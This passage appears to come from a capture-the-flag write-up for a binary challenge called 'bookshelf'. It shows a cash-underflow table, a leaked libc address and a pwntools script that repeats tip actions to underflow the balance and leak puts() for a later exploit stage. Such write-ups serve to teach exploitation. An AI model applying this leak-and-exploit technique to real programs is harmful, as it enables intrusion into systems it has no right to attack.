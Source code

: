 ```
2) Buy a book
3) Write a special book (ADMINS ONLY) (0)
4) Check out
 >> 
```

Look what we found....0x7f0a37875bf0 our libc leaked value!!!

### Writing the exploit

#### Local exploit

Let's write a script to automate the leaking process

| Iteration | Action                            | Cash        |
|:---------:|:---------------------------------:|:-----------:|
| 0         | Initial                           | \$500       |
| 1         | Buy \$425 book<br/>Leave tip      | \$65        |
| 2         | Attempt to buy book<br/>Leave tip | $55         |
| 3         | Attempt to buy book<br/>Leave tip | $45         |
| 4         | Attempt to buy book<br/>Leave tip | $35         |
| 5         | Attempt to buy book<br/>Leave tip | $25         |
| 6         | Attempt to buy book<br/>Leave tip | $15         |
| 7         | Attempt to buy book<br/>Leave tip | $5          |
| 8         | Attempt to buy book<br/>Leave tip | $4294967291 |

```python
from pwn import *

p = process('./bookshelf')

# LEAK PUTS
log.info('Leaking puts')
for _ in range(8):
    p.sendline(b'2')    # Go to bookshop
    p.sendline(b'2')    # Buy/Attempt to buy a book
    p.sendline(b'y')    # Leave tip

p.sendline(b'2')    # Go to bookshop
p.sendline(b'3')    # Read value of puts()
p.sendline(b'N')    # No need to leave any more tip

leak = p.clean()    # Read everything till now
leak = b''.join(word for word in leak.split(b' ') if word.startswith(b'0x'))    # Filter the text for the memory address

puts = int(leak, 16)
log.success('Puts found @ ' + hex(puts))

p.close()
```
